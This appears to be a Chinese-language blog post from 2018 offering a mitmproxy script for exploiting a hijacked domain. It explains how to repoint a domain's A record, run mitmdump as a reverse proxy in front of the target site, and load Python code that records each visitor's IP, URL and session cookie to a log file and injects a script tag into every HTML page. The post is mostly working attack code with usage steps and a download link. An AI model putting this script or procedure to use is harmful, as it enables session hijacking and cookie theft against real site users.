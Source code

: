 ```yaml
---
layout:     post
title:      域名劫持后利用脚本
date:       2018-05-29
summary:    域名劫持后利用脚本
categories: web
tags:
 - mitmproxy
 - mitmdump
---
```


### About

本文记录一种在域名劫持后通过mitmproxy进行http会话劫持的利用脚本,该脚本通过mitmdump的反向代理工作模式进行流量劫持.

### Usage

1.通过修改域名的A记录来进行域名劫持

2.在域名的新A记录主机上安装mitmproxy:`pip3 install mitmproxy`

3.在域名的新A记录主机上运行:
    `mitmdump —set allow_remote=true —listen-host 0.0.0.0 -s xdomain.py —mode reverse:http://xxx.xxx.xxx:80 -p 80`

```
—listen-host代表本地监听ip
—mode reverse代表以反向代理的模式进行工作
—set allow_remote=true代表支持客户端访问的时候是通过代理访问的
运行时需要需要上面命令中的http://xxx.xxx.xxx:80为目标网站地址,且修改下面代码中的http://xxx.xxx.xxx为目标网站地址
```

### Detail

```
import os
import re
import chardet


def request(flow):
    # url=flow.request.url
    # flow.request.headers['User-Agent']='xxx'
    pass


def response(flow):
    url = flow.request.url
    print(url)
    if "http://xxx.xxx.xxx" in url:
        content = flow.response.content
        cookie = flow.request.headers['Cookie']
        ip = str(flow.client_conn.ip_address).split(":")[0]
        bytes_encoding = chardet.detect(content)['encoding']
        origin_html = content.decode(encoding=bytes_encoding, errors="ignore")
        if "</html>" in origin_html:
            insert_xss = '''<script>alert("you're hacked")</script></html>'''
            new_html = origin_html.replace("</html>", insert_xss)
            flow.response.text = new_html
        return_value = {'ip': ip, 'url': url, 'cookie': cookie}
        with open("mitm.log", "a+") as f:
            f.write(str(return_value) + "\n")
```

[download][1]

[1]: https://raw.githubusercontent.com/3xp10it/mytools/master/xdomain.py
